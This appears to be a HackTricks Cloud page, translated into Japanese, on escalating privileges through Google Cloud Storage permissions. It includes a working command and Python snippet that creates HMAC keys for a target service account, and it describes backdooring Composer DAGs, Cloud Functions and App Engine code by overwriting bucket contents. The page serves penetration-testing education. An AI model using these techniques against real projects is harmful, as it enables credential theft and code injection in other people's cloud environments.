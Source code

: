 # GCP - Storage Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Storage

基本情報:

{% content-ref url="../gcp-services/gcp-storage-enum.md" %}
[gcp-storage-enum.md](../gcp-services/gcp-storage-enum.md)
{% endcontent-ref %}

### `storage.objects.get`

この権限は、**Cloud Storage内に保存されたファイルをダウンロードする**ことを許可します。これは、場合によっては**機密情報がそこに保存されているため、権限を昇格させる**可能性があります。さらに、いくつかのGCPサービスは、情報をバケットに保存します:

* **GCP Composer**: Composer環境を作成すると、**すべてのDAGのコード**が**バケット**内に保存されます。これらのタスクは、そのコード内に興味深い情報を含む可能性があります。
* **GCR (Container Registry)**: コンテナの**イメージ**は**バケット**内に保存されており、バケットを読み取ることができれば、イメージをダウンロードして**漏洩やソースコードを検索する**ことができます。

### `storage.objects.setIamPolicy`

このセクションの以前のシナリオの**悪用を許可する**権限を与えることができます。

### **`storage.buckets.setIamPolicy`**

この権限で権限を変更する方法の例については、このページを確認してください:

{% content-ref url="../gcp-unaunthenticated-enum-and-access/gcp-storage-unauthenticated-enum/gcp-public-buckets-privilege-escalation.md" %}
[gcp-public-buckets-privilege-escalation.md](../gcp-unaunthenticated-enum-and-access/gcp-storage-unauthenticated-enum/gcp-public-buckets-privilege-escalation.md)
{% endcontent-ref %}

### `storage.hmacKeys.create`

Cloud Storageの「相互運用性」機能は、AWS S3などの**クロスクラウドインタラクション**のために設計されており、**サービスアカウントとユーザーのためのHMACキーの作成**を含みます。攻撃者は、**権限が昇格されたサービスアカウントのHMACキーを生成することによってこれを悪用し、Cloud Storage内での権限を昇格させる**ことができます。ユーザーに関連付けられたHMACキーはウェブコンソールを介してのみ取得可能ですが、アクセスキーとシークレットキーは**永続的にアクセス可能**であり、バックアップアクセスストレージの可能性を提供します。一方、サービスアカウントにリンクされたHMACキーはAPIアクセス可能ですが、作成後はそのアクセスキーとシークレットキーは取得できず、継続的なアクセスのための複雑さを加えます。

{% code overflow="wrap" %}
```bash
# Create key
gsutil hmac create <sa-email> # You might need to execute this inside a VM instance

## If you have TROUBLES creating the HMAC key this was you can also do it contacting the API directly:
PROJECT_ID = '$PROJECT_ID'
TARGET_SERVICE_ACCOUNT = f"exam-storage-sa-read-flag-3@{PROJECT_ID}.iam.gserviceaccount.com"
ACCESS_TOKEN = "$CLOUDSDK_AUTH_ACCESS_TOKEN"
import requests
import json
key = requests.post(
f'https://www.googleapis.com/storage/v1/projects/{PROJECT_ID}/hmacKeys',
params={'access_token': ACCESS_TOKEN, 'serviceAccountEmail': TARGET_SERVICE_ACCOUNT}
).json()
#print(json.dumps(key, indent=4))
print(f'ID: {key["metadata"]["accessId"]}')
print(f'Secret: {key["secret"]}')


# Configure gsutil to use the HMAC key
gcloud config set pass_credentials_to_gsutil false
gsutil config -a

# Use it
gsutil ls gs://[BUCKET_NAME]

# Restore
gcloud config set pass_credentials_to_gsutil true
```
{% endcode %}

この方法の別のエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/storage.hmacKeys.create.py)で見つけることができます。

## `storage.objects.create`, `storage.objects.delete` = ストレージ書き込み権限

バケット内に**新しいオブジェクトを作成する**には`storage.objects.create`が必要で、[ドキュメント](https://cloud.google.com/storage/docs/access-control/iam-permissions#object\_permissions)によると、既存のオブジェクトを**変更する**には`storage.objects.delete`も必要です。

クラウドに書き込むことができるバケットの**一般的な悪用**は、**バケットがウェブサーバーファイルを保存している場合**であり、ウェブアプリケーションで使用される**新しいコードを保存できる**可能性があります。

### Composer

**Composer**はGCP内で管理されている**Apache Airflow**です。いくつかの興味深い機能があります：

* **GKEクラスター**内で実行されるため、**クラスターが使用するSAはComposer内で実行されるコードからアクセス可能**です。
* Composer環境のすべてのコンポーネント（**DAGのコード**、プラグイン、データ）はGCPバケット内に保存されます。攻撃者がそれに対して読み取りおよび書き込み権限を持っている場合、バケットを監視し、**DAGが作成または更新されるたびに、バックドア付きのバージョンを提出する**ことができるため、Composer環境はストレージからバックドア付きのバージョンを取得します。

**この攻撃のPoCはリポジトリで見つけることができます：** [**https://github.com/carlospolop/Monitor-Backdoor-Composer-DAGs**](https://github.com/carlospolop/Monitor-Backdoor-Composer-DAGs)

### Cloud Functions

* Cloud Functionsのコードはストレージに保存され、新しいバージョンが作成されると、コードがバケットにプッシュされ、その後新しいコンテナがこのコードからビルドされます。したがって、**新しいバージョンがビルドされる前にコードを上書きすることで、クラウド関数が任意のコードを実行することが可能になります**。

**この攻撃のPoCはリポジトリで見つけることができます：** [**https://github.com/carlospolop/Monitor-Backdoor-Cloud-Functions**](https://github.com/carlospolop/Monitor-Backdoor-Cloud-Functions)

### App Engine

AppEngineのバージョンは、`staging.<project-id>.appspot.com`という形式のバケット内にデータを生成します。このバケット内には、AppEngineアプリのバージョンごとにフォルダを含む`ae`というフォルダがあります。これらのフォルダ内には、特定のバージョンを作成するために使用されるすべてのファイルを含むjsonを持つ`manifest.json`ファイルがあります。さらに、**ファイルの実際の名前、GCPバケット内のURL（バケット内のファイルはsha1ハッシュのために名前が変更されています）、および各ファイルのsha1ハッシュを見つけることができます。**

_GCPユーザーは、appspot.comのドメイン名を使用してバケットを生成する権限がないため、このバケットを事前に取得することはできません。_

しかし、このバケットに対して読み取りおよび書き込みアクセスがあれば、バケットを監視し、変更が行われるたびに（新しいバージョン）、新しいバージョンをできるだけ早く変更することで、App Engineバージョンに付随するSAの権限を昇格させることが可能です。この方法で、このコードから作成されるコンテナはバックドア付きのコードを実行します。

前述の攻撃はさまざまな方法で実行できますが、すべては`staging.<project-id>.appspot.com`バケットを監視することから始まります：

* AppEngineバージョンの完全な新しいコードを別の利用可能なバケットにアップロードし、**新しいバケット名とsha1ハッシュを持つ`manifest.json`ファイルを準備します**。次に、バケット内で新しいバージョンが作成されると、`manifest.json`ファイルを変更して悪意のあるものをアップロードするだけです。
* **悪意のある依存関係のコードを使用する`requirements.txt`の修正バージョンをアップロードし、`manifest.json`ファイルを新しいファイル名、URL、およびそのハッシュで更新します。**
* **悪意のあるコードを実行する`main.py`または`app.yaml`ファイルを修正してアップロードし、`manifest.json`ファイルを新しいファイル名、URL、およびそのハッシュで更新します。**

**この攻撃のPoCはリポジトリで見つけることができます：** [**https://github.com/carlospolop/Monitor-Backdoor-AppEngine**](https://github.com/carlospolop/Monitor-Backdoor-AppEngine)

### GCR

* **Google Container Registry**はバケット内にイメージを保存します。**これらのバケットに書き込むことができれば、これらのバケットが実行されている場所に横移動できる可能性があります。**
* GCRが使用するバケットは、`gs://<eu/usa/asia/nothing>.artifacts.<project>.appspot.com`のようなURLを持ちます（トップレベルのサブドメインは[こちら](https://cloud.google.com/container-registry/docs/pushing-and-pulling)で指定されています）。

{% hint style="success" %}
このサービスは廃止されているため、この攻撃はもはや有効ではありません。さらに、このサービスの代わりとなるArtifact Registryは、バケットにイメージを保存しません。
{% endhint %}

## **参考文献**

* [https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/#:\~:text=apiKeys.-,create,privileges%20than%20our%20own%20user.](https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
